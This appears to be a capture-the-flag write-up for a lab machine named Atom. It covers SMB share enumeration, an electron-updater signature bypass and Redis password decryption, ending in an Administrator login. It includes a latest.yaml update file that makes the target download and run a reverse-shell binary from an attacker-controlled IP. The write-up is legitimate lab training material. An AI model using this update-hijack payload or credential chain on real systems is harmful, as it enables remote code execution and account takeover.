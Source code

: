 # Atom

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (22) (6).png" alt=""><figcaption></figcaption></figure>

There's a `redis` server running on the machine, and also WinRM for whatever reason. SMB Shares might be accessible on this server.

### SMB Shares

Using `smbmap`, there is one share that is readable even without credentials.

<figure><img src="../../../.gitbook/assets/image (45) (2).png" alt=""><figcaption></figcaption></figure>

The Software\_Updates one is new. We can connect to it and see what are the files present.

<figure><img src="../../../.gitbook/assets/image (46) (2) (2).png" alt=""><figcaption></figcaption></figure>

The PDF contained some useful information:

<figure><img src="../../../.gitbook/assets/image (36) (2) (1).png" alt=""><figcaption></figcaption></figure>

We can place an update within this share's client folders, and then a user would run it. This is probably the way to gain a reverse shell.

### Electron

When checking the web portal, we see that it's a regular corporate website.

<figure><img src="../../../.gitbook/assets/image (56) (2) (2).png" alt=""><figcaption></figcaption></figure>

There was a download button on the page, presumably to download the program used for this application. This would make us download a .exe file.

<figure><img src="../../../.gitbook/assets/image (25) (4).png" alt=""><figcaption></figcaption></figure>

We can actually open .exe files to find out what is within it.

<figure><img src="../../../.gitbook/assets/image (35) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

When viewing the plugins directory, we would find an app.7z file which we can open to reveal the resources.

<figure><img src="../../../.gitbook/assets/image (15) (4) (1).png" alt=""><figcaption></figcaption></figure>

We can take a look at the resources file to view the source code and stuff, and there we find more hints that this is a Electron application.

<figure><img src="../../../.gitbook/assets/image (64) (3) (1).png" alt=""><figcaption></figcaption></figure>

We can dive further into the .asar file using `asar`.

<figure><img src="../../../.gitbook/assets/image (27) (2) (1).png" alt=""><figcaption></figcaption></figure>

Within the main.js file, we can find that `electron-updater` was imported within this application.

<figure><img src="../../../.gitbook/assets/image (69) (3).png" alt=""><figcaption></figcaption></figure>

### Signature Bypass

Searching for exploits for electron-updater led me to this website:

{% embed url="https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html" %}

In short, it's possible to bypass the signature checks that determine if an electron update is legitimate or not. This is done through altering the `latest.yaml` file. So, by bypassing this signature check, the updater would execute any malicious code we use.

This is in line with the information on the PDF we found earlier, telling us to place updates within the share for it to be executed. We can follow the PoC provided.

First, we can generate a quick reverse shell binary with `msfvenom`.

<figure><img src="../../../.gitbook/assets/image (33) (4) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we need to change the name of this binary to have an `'` character within it. I named mine `v'rev.exe`. Then, we need to take the sha512 hash of this file and base64 encode it.

<figure><img src="../../../.gitbook/assets/image (38) (1) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can create the `latest.yaml` file to have a custom HTTP path for the update with the hash value. Afterwards, we can host the binary on a Python HTTP server.

```yaml
version: 2.2.3
files:
  - url: http://10.10.16.9/r'ev.exe
    sha512: <hash value>
    size: 7168     
path: http://10.10.16.9/r'ev.exe
sha512: <hash value>
releaseDate: '2022-03-14T11:17:02.627Z'
```

Upon creation, we would need to put this YAML file within the client directory of the share we accessed earlier.&#x20;

<figure><img src="../../../.gitbook/assets/image (29) (3).png" alt=""><figcaption></figcaption></figure>

After a while, our HTTP server would get a hit and our listener port would catch a reverse shell.

<figure><img src="../../../.gitbook/assets/image (37) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (67) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kanban Redis Creds

Within the user's Downloads folder, we can find a PortableKanban instance.

<figure><img src="../../../.gitbook/assets/image (55) (2) (2).png" alt=""><figcaption></figcaption></figure>

Within the folder, we can find an encrypted password for the `redis` instance on the machine.

<figure><img src="../../../.gitbook/assets/image (66) (3).png" alt=""><figcaption></figcaption></figure>

Quick googling led me to an exploit, which allows for us to decrypt the passwords using DES.

{% embed url="https://www.exploit-db.com/exploits/49409" %}

I used CyberChef to decrypt the password using the key and IV extracted from the exploit.

<figure><img src="../../../.gitbook/assets/image (48) (2).png" alt=""><figcaption></figcaption></figure>

After finding this password, we can use `redis-cli` to login to the redis instance.

### Redis Creds

Logging in:

<figure><img src="../../../.gitbook/assets/image (44) (2).png" alt=""><figcaption></figcaption></figure>

We can check all the keys present on this machine:

<figure><img src="../../../.gitbook/assets/image (39) (1) (2).png" alt=""><figcaption></figcaption></figure>

The user key with some kind of GUID was the first I checked. We can do so with `get <name>`. This revealed another encrypted password for the Administrator.

<figure><img src="../../../.gitbook/assets/image (57) (4) (1).png" alt=""><figcaption></figcaption></figure>

We can decrypt this using the same CyberChef configurations.

<figure><img src="../../../.gitbook/assets/image (43) (3).png" alt=""><figcaption></figcaption></figure>

Then, we can use `evil-winrm` to log in as the administrator.

<figure><img src="../../../.gitbook/assets/image (7) (2) (2).png" alt=""><figcaption></figcaption></figure>
